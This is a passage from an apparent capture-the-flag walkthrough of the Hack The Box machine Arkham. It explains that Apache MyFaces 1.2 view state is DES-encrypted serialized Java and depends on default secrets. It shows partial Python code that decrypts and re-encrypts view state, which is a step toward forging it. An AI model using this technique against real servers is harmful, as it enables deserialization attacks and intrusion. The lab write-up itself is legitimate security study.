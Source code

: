 Research into Apache MyFaces 1.2 led me to this [page](http://myfaces.apache.org/shared12/myfaces-shared-core/apidocs/org/apache/myfaces/shared/util/StateUtils.html). The view state above is a base64-encoded, DES encrypted Java serialized object. The important thing about this page is the default values used.

<a class="image-popup">
![9acae796.png](/assets/images/posts/arkham-htb-walkthrough/9acae796.png)
</a>

To the end, I wrote some Python code to test it out.

<div class="filename"><span>crypto.py</span></div>

```python
from Crypto.Cipher import DES
import base64
import hmac
import hashlib

def padding_append(data):
  if len(data) % 8:
    for n in xrange(len(data)):
      if ((len(data) + n) % 8) == 0:
        data += chr(n) * n
        break

  return data

def padding_remove(data):
  data = map(ord, data)
  padv = data[-1]

  if data[-padv:] == [padv,] * padv:
    data = data[:-padv]

  return "".join(map(chr, data))

def decrypt_viewstate(viewstate, secret):
  secret = base64.b64decode(secret)
  des = DES.new(secret, DES.MODE_ECB)

  viewstate = base64.b64decode(viewstate)[:-20]
  viewstate = [viewstate[n:n+8] for n in xrange(0, len(viewstate), 8)]
  viewstate = "".join(map(des.decrypt, viewstate))
  viewstate = padding_remove(viewstate)

  return viewstate

def encrypt_viewstate(viewstate, secret):
  secret = base64.b64decode(secret)
  des = DES.new(secret, DES.MODE_ECB)

  viewstate = padding_append(viewstate)
```

[1]: https://www.hackthebox.eu/home/machines/profile/179
[2]: https://www.hackthebox.eu/home/users/profile/8308
[3]: https://www.hackthebox.eu/